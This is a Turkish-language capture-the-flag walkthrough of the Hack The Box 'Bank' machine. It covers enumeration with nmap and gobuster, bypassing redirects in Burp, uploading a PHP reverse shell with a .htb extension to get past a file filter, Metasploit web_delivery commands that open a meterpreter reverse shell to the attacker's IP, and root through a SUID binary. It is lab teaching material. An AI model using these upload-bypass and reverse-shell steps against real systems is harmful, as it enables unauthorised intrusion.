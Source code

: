 ```yaml
---
title: Hack-The-Box Bank
published: true
categories: Machines
image: /assets/hackthebox/Bank/0.png
---
```


<img src="{{ page.image | prepend:site.baseurl | replace:'//','/' }}" > <!-- burayi img tagiyla yapicaksin -->

Merhaba arkadaşlar, bugün size hack the box makinasi olan Bank'i nasil çözdüğümü anlatmaya çalışıcam.Harbi güzel makinaydı, çözümü birkaç nokta hariç diğer klasikleşmiş makinalarla aynıydı.Makinamız linux makinasıydı ve ip si 10.10.10.29.Hazırsak baslayalım.
<hr>
### Server Enumeration
Ilk olarak tabikide server enumeration icin Nmap taramamizi gerceklestiriyoruz.

![](/assets/hackthebox/Bank/1.png)

Bakiyorum ki 3 tane acik port 22/SSH 53 DNS ve 80 http her zaman oldugu gibi ilk hedef secilen port kardesimiz http oluyor ve browsera ip yi yazarak http istegi yapiyorum fakat karsima apache sayfasi geliyor buraya content discovery denemeden once dns portunun acik oldugu aklima geliyor ve hemen etc/hosts kismina ipmizi giriyoruz ve bilmiyorsaniz bilmenizde fayda var hacktheboxtaki domain isimleri labismi.htb diye devam eder bu yuzden hosts dosyamizada boyle ekliyoruz.Bunu yazinca karsimiza login.php sayfasi geldi ve submit query diyor allah allah.Bir dedim gobuster atayim ne var ne yok hayirdir yaniii! 

![](/assets/hackthebox/Bank/2.png)
* * *
### HTTP

Web sayfasina islem yapmadan once aklimda kalmasin diye nmaptan gelen ciktilardaki portlardaki calisan servislerde bir zafiyet var mi diye hem searchsploit ile hemde google aramalari ile bakindim fakat yoktu simdi donelim httpmize

bank.htb seklinde browsera yazdigimizda, karsimiza su sekilde bir sayfa geliyor, bu arada robots.txt dizini denedim herhangi bir sey gelmedi.

![](/assets/hackthebox/Bank/3.png)

#### Content Discovery

```gobuster dir -x php -u http://bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt``` olarak bombardina basliyoruz.Bu gobusterin update li hali eski halinde dir olmadan direk yazarak kullanabilirsiniz.

Bu sirada gobuster ararken bizde bir burple araya girelim bakalim ne var ne yok derken...Karsimiz asagidaki gibi cikti geliyor shiiiiiiit.

![](/assets/hackthebox/Bank/4.png)

Uploads dizinine gordukten sonra kafamda su olustu bak beni dinle.

Dedim ben bir giris yapsam giris yaptiktan sonra bir reverse shell upload etsem netcatle dinlesem sonra booom icerideyim anniyomusun yani.

Ama ole gelmedi annatabiliyommu yani baktim support.php ve index.php var http istegi gonderiyorum arada burp ile response kisminda html sayfasini goruyorum lakin beni login.php sayfasina yonlendiriyor.

![](/assets/hackthebox/Bank/5.png)

Dusundumki onumuzde login sayfasi var buraya bruteforce yapmak aklima gelen ilk seydi ki default credentialslari denemistim admin-password admin-bank gibi fakat username degil email-password istiyordu e bruteforce elendi sayfanin kaynak koduna baktim ordada ipucu yok geriye kalan tek sey php uzantili buldugumuz dosyalara bir bakmamiz lazim.

Sonra ben internete baktim dedim redirect olmadan renderli bir sekilde gorebilir miyim sayfalari fakat
sonra open link directly(no redirect diye bir firefox addonsu buldum) Ben firefox kullaniyorum bu arada fakat hic bisi anlamadim nasil kullanildigini sildim.

Sonra dedimki olm napiosun bende burp proxy var dedim ben responselarida burp le keseyim ordan bir location headeri silelim bakalim noluo
hoooop dusundugum gibi oldu support.php geldi ve gene dusundugumuz oldu dosya upload yeri geldi.

![](/assets/hackthebox/Bank/6.png)

php tabanli bir yerde calistigimiz icin php reverse shell denemek istedim.Kullandigim php-reverse-shelli burdan bulabilirsiniz.[Pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) sitesinde guzel kaynaklar ve shellllllller bulabilirsiniz kendisi yararli bir site.

Post ettikten sonra gene redirect vardi bu yuzden gene location headerini sildim bana donene cevap ise kardesim sadece image yukleyebiliyoruz olarak geldi.Dedim bir deneyelim content-type headeri ile oynayalim uzantiyi png.php olarak degistirelim gorelim seklini semalini fakat yemedi izin vermedi.Sonra bir baktimki dikkatsiz davranmisim redirect yaparken html icinde soyle bir yazi vardi.

``` [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] ```

![](/assets/hackthebox/Bank/7.png)

* * *
### Exploit

Sitenin kaynak kodundaki ipucudan sonra .htb uzantisinda php-reverse-shell dosyamizi yukledikten sonra /uploads dizininden dosyaya istek gonderip shellin istek yollayacagi portu dinliyoruz ve booooooom! shellimiz geldi

![](/assets/hackthebox/Bank/8.png)

Simdi hak yukseltmemiz gerek fakat bundan once eger oluyorsa benim hep arzu ettigim shelli meterpretere tasimak her turlu daha kolay ve esnek olmakta.Bu yuzden, post exploitten once shelli meterpretere tasiyalim.

Metasploiti actiktan sonra sirasiyla sunlari giriyoruz.

```
> use exploit/multi/script/web_delivery
> set target 1
> set lhost vpn-ipniz(tun0)
> set set payload php/meterpreter/reverse_tcp
> exploit
```
Dedikten sonra size verilen php payloadini netcat ile aldiginiz shellde calistirirsaniz meterpreterda onunuze session olarak dusecektir.

![](/assets/hackthebox/Bank/9.png)

* * *
### Post-Exploitation

Simdi hak yukseltmemiz lazim, isleme baslamadan once size hep yaninizda bulunmasi acisindan soyle bir site birakiyorum.Cok yararli kendisi!Ozellikle privilege escalation cheat sheeti icin kullaniyorum.

*	[blackwintersecurity](https://blackwintersecurity.com/)

cat /proc/version dedikten sonra gelen kernel versionu Linux version 4.4.0-79-generic.Exploit-db de kendisi hakkinda exploitler vardi fakat meterpreter ile upload edip calistirdiktan sonra error veriodu o yuzden denemeyi kestim.

Meterpreter shellini aldiktan sonra meterpreterin upload fonksiyonunu kullanarak karsi servera dosya yukluyoruz fakat karsidaki istedigim her yere dosya yukleyemeyiz bunun icin belirli dizinler var.Bunlar listesi tarzi bir sey icin size su linki birakmak isterim [tmpfs]("https://wiki.archlinux.org/index.php/Tmpfs").Acilimi gecici dosya sistemi olarak gecmekte ve bunun icinde belli dizinler var.Mesela /tmp yada /dev/shm gibi buralar paylasima acik dizinler oldugu icin dosyamizi buraya yukleyerek burdan calistirabilmekteyiz, daha fazlasi icin linke bakabilirsiniz.

Asagidaki resimde de gorebileceginiz uzere LinEnum.sh olarak gecen bir bash scriptimiz var.Linux isletim sistemlerinde privelege escalation islemini gerceklestirebilmek icin hazirlanan araclar arasindan en iyisi ve en cok kullanilani, size gerekli olan ne varsa getirebilmekte.Dosyamizi yukledikten sonra `shell` yazarak shellimize geciyoruz ve daha sonra calistirma haklari icin `chmod` komutunu kullaniyoruz ve her sey hazir olduktan sonrada komutumuzu calistiriyoruz.

![](/assets/hackthebox/Bank/10.png)

Onumuze hak yukseltmeye calistigimiz linux isletim sistemi hakkinda cok fazla bilgi gelmekte fakat ben size su anda bizim isimize yarayan yere dikkat cekmek isticem.

![](/assets/hackthebox/Bank/11.png)

Resimdede goruldugu gibi /var/htb/bin/emergency olarak gordugumuz dizin bir suid bitine sahip calistirabilir dosya.Zaten bunu gordukten sonra yakaladigimi hissetmistim bakalim root olicikmiyiz.

![](/assets/hackthebox/Bank/12.png)

Evet, goruldugu gibi makinamiz bitmistir.Sagolun tesekkurler.
